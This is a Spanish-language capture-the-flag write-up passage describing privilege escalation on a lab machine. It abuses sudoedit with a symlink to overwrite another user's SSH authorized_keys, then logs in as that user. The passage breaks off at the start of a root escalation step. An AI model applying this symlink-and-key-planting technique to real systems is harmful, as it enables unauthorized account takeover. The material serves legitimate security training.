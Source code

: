 ### Escalada de privilegios al usuario alekos {-}

```bash
ls -l /var/www
```

No tenemos capacidad de escritura en el directorio 
```bash
 /var/www 
```
 pero hay un directorio testing donde el usuario proprietario es werkzeug.

```bash
cd /var/www/testing
ls -l
mkdir hannamod
cd !$
echo "Hola" > layout.html
```

Testeamos el comando **sudoedit**

```bash
sudoedit -u alekos /var/www/testing/hannamod/layout.html
```

El comando no abre un nano en el cual podemos editar el contenido. El truco aqui es burlar el fichero para que el usuario pueda editar
un ficher tercio en el cual tenga capacidad de escritura

1. Creamos un enlace symbolico contra el **authorized_keys** del usuario alekos

    ```bash
    ln -s -f /home/alekos/.ssh/authorized_keys layout.html
    ```

1. Nos creamos un par de claves

    ```bash
    ssh-keygen
    ```

1. Lanzamos el **sudoedit** y copiamos la clave publica creada
1. Nos conectamos al usuario alekos por ssh

    ```bash
    ssh -i id-rsa alekos@10.10.10.21
    ```

Pa dentro... somos alekos y podemos leer la flag.

### Escalada de privilegios al usuario root {-}

```bash
id
sudo -l
ls -l
```
